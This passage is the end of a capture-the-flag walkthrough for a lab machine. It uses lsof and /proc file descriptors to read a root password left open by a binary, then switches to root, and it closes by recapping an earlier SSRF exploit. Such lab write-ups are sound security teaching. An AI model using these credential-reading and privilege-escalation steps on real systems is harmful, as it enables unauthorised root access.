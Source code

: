 Remember that during the analyses of the binary, the file **root.pass** was opened but never closed we can verify that this file is still open in this terminal session using the lsof command.
```bash
$ lsof | grep pass
sh        2187                         shimmer    3r      REG                8,1       15     522246 /opt/root.pass
grep      2203                         shimmer    3r      REG                8,1       15     522246 /opt/root.pass
```

Now that we have the confirmation that this file is still open we can navigate to the process directory handling this process and read the content of this opened file.
```bash
$ cd /proc/2187/fd
$ ls
0  1  10  2  3
$ cat <&3
<REDACTED>
```

Now that we have a root user's password we can log in as the root user and read the second flag.
```bash
shimmer@casino:~$ su root
Contraseña: 
root@casino:/home/shimmer# ls /root
r0ot.txt
root@casino:/home/shimmer# 
```

## Conclusion

Congratulations! In this walkthrough, you have exploited an SSRF vulnerability to read files on an internal web server on the target. Finally, you used reverse engineering to understand the functioning of a binary and read privileged files stored in memory. This machine was designed to show how inadequate validation of remote URLs before initiating requests can lead to serious SSRF vulnerabilities, significantly compromising the security of an organisation. Thank you for following up on this walkthrough.
